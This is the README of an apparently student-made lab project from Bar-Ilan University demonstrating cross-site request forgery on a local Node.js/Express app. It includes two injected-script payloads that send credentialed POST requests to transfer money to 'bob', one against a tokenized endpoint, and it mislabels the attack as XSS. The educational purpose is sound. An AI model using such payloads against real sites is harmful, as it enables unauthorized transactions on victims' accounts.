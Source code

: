 # CSRF-attack

CSRF is a type of malicious exploit of a website where unauthorized commands are transmitted 
from a user that the web application trusts.

## Getting Started

Clone the project to your computer.

### Prerequisites

install webstorm .

### Installing

Install nodejs and express .

## Running 

Run the project . 
Run XSS attack with the following scripts:

### without token:
```
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.2.1/jquery.min.js">
</script><script>$.ajax({type: 'POST',url: 'http://localhost:3000/transfer',data:
{'dest':'bob','amount':'600'},xhrFields:{ withCredentials: true},success:function(msg){}});</script>
```
### with token:
```
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
<script>$.ajax({type: 'POST',url: 'http://localhost:3000/tokenTransfer',crossDomain: true,
data:{'dest':'bob','amount':'600'},xhrFields:{ withCredentials: true},success:function(msg){}});</script>

```
 
 ## Authors

* **Galit Vaknin** - [Galit1321](https://github.com/Galit1321)

* **Ifat Neumann** - [neumani1](https://github.com/neumani1)

* **Michal Shawat** - [michalShawat](https://github.com/michalShawat)

## Acknowledgments

* Bar-Ilan University

